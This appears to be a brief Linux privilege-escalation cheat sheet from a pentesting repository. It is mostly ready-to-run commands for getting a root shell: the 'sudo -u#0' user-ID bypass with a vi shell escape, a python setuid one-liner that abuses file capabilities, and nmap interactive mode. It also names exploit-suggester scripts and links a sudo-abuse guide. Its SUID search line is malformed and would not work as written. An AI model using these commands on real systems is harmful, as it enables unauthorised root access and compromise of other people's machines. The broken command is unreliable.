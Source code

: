 
# Privilege Escalation

## Linux
* Run auto escalation checkers in the scripts folder
  * Mike_Czumak.py <--- python2 required
  * linuxExploitSuggester.sh

* Abuse commands allowed to run as root
  * These commands can be found in sudoers files
  * $> sudo -u#0 vi anything
  * :!sh

* getcap -r / 2>/dev/null
  * /usr/bin/python* -c 'import os; os.setuid(0);os.system("/bin/bash");'

* nmap
  * $> sudo nmap --interactive
  * !bash

* find / type -f /4000


| Description | Link |
| ------------- | ----- |
| abuse sudo command | https://null-byte.wonderhowto.com/how-to/abuse-vulnerable-sudo-versions-get-root-0212024/ |
